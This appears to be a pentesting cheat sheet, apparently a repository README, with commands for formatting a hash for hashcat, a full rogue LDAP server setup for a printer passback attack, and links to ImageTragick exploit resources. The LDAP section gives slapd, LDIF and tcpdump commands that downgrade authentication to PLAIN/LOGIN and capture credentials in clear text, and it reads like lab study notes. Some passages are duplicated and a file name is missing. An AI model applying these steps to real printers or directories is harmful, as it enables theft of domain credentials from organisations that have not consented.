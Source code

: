 ## Hash format for hashcat crack

echo 'sha256:10000:'$(echo 'sO3XIbeW14' | base64 | cut -c1-14)':'$(echo '66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37' | xxd -r -p | base64)

## Ldap passback attack vulnrable server setup (rouge ldap server)

sudo systemctl enable slapd

sudo systemctl start slapd

sudo dpkg-reconfigure -p low slapd // configure it with the domain which you attack

We want to ensure that our LDAP server only supports PLAIN and LOGIN authentication methods. To do this, we need to create a new ldif file, called with the following content:

To capture the credentials in clear-text, we need to re-configure the LDAP server to support PLAIN and LOGIN authentication methods. We want to ensure that our LDAP server only supports PLAIN and LOGIN authentication methods. To do this, we need to create a new ldif file, called with the following content:

#olcSaslSecProps.ldif

dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred



sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart // to patch ldif file to our ldap server

To verify the modification:

ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
dn:
supportedSASLMechanisms: PLAIN
supportedSASLMechanisms: LOGIN

Change the server ip on printer webpage then start, Check the following error: "This distinguished name contains invalid syntax". If you receive this error, then use a tcpdump to capture the credentials.

sudo tcpdump -SX -i breachad tcp port 389


## ImageTragick

if the webserver converts png to jpg like this or file upload 

https://mukarramkhalid.com/imagemagick-imagetragick-exploit/

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20Image%20Magik

exploit
